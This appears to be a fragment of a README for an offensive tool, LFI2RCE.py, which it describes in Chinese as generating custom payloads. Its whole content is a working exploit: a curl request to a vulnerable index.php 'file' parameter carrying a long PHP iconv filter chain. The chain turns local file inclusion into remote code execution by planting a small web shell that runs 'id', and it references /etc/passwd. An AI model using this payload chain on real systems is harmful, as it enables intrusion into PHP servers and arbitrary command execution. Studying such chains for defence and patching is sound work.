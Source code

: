 * [LFI2RCE.py](./LFI2RCE.py) 生成自定义payload

  ```powershell
  # vulnerable file: index.php
  # vulnerable parameter: file
  # executed command: id
  # executed PHP code: <?=`$_GET[0]`;;?>
  curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"
  ```

